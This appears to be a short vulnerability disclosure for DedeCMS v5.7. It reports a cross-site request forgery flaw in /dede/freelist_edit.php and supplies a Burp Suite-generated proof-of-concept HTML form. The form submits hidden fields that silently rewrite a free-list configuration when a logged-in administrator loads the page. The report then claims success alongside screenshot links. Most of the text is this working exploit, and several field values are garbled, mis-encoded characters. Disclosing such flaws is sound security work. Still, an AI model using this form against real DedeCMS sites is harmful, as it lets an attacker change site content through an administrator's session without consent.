 target:https://github.com/wdsunwq/DedeCMSv5
version: v5.7

DedeCMS v5.7 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /dede/freelist_edit.php
![1](https://github.com/777erp/cms/assets/113673221/65cafb43-4b95-498e-a90c-1af71f0e6f92)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/src/dede/freelist_edit.php" method="POST">
      <input type="hidden" name="dopost" value="save" />
      <input type="hidden" name="aid" value="1" />
      <input type="hidden" name="title" value="娴&#139;�&#175;&#149;�&#134;&#133;�&#174;&#185;" />
      <input type="hidden" name="listdir" value="&#123;cmspath&#125;&#47;freelist&#47;" />
      <input type="hidden" name="defaultpage" value="index&#46;html" />
      <input type="hidden" name="nodefault" value="1" />
      <input type="hidden" name="namerule" value="&#123;listdir&#125;&#47;index&#95;&#123;listid&#125;&#95;&#123;page&#125;&#46;html" />
      <input type="hidden" name="templet" value="&#123;style&#125;&#47;list&#95;free&#46;htm" />
      <input type="hidden" name="maxpage" value="100" />
      <input type="hidden" name="keywords" value="�&#152;&#191;�&#184;&#137;�&#164;&#167;�&#142;&#166;�&#164;&#167;�&#164;&#167;" />
      <input type="hidden" name="description" value="�&#152;&#191;�&#184;&#137;�&#164;&#167;�&#142;&#166;�&#164;&#167;�&#142;&#166;�&#164;&#167;�&#146;&#146;" />
      <input type="hidden" name="typeid" value="1" />
      <input type="hidden" name="channel" value="1" />
      <input type="hidden" name="att" value="0" />
      <input type="hidden" name="subday" value="" />
      <input type="hidden" name="pagesize" value="30" />
      <input type="hidden" name="col" value="1" />
      <input type="hidden" name="titlelen" value="60" />
      <input type="hidden" name="keywordarc" value="" />
      <input type="hidden" name="orderby" value="pubdate" />
      <input type="hidden" name="order" value="desc" />
      <input type="hidden" name="innertext" value="&lt;li&gt;&#91;field&#58;imglink&#47;&#93;&#32;&#91;field&#58;textlink&#47;&#93;&#32;&lt;span&#32;class&#61;info&gt;&lt;small&gt;�&#151;&#165;�&#156;&#159;�&#188;&#154;&lt;&#47;small&gt;&#91;field&#58;pubdate&#32;function&#61;&quot;getdatemk&#40;&#64;me&#41;&quot;&#47;&#93;&#32;&lt;small&gt;�&#130;&#185;�&#135;&#187;�&#188;&#154;&lt;&#47;small&gt;&#91;field&#58;click&#47;&#93;&#32;&lt;small&gt;�&#165;&#189;�&#175;&#132;�&#188;&#154;&lt;&#47;small&gt;&#91;field&#58;scores&#47;&#93;&#32;&lt;&#47;span&gt;&#9;&#13;&#10;&lt;p&#32;class&#61;intro&gt;&#91;field&#58;description&#47;&#93;&#46;&#46;&#46;&lt;&#47;p&gt;&lt;&#47;li&gt;" />
      <input type="hidden" name="Submit2" value="�&#191;&#157;�&#173;&#152;�&#184;&#128;�&#184;&#136;&#151;�&#161;&#168;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

![2](https://github.com/777erp/cms/assets/113673221/f3ade9e0-f256-42e6-ad7a-91261a8bb61a)


Successed

![2](https://github.com/777erp/cms/assets/113673221/80617283-0da1-49f9-b675-df5ce7a499f7)

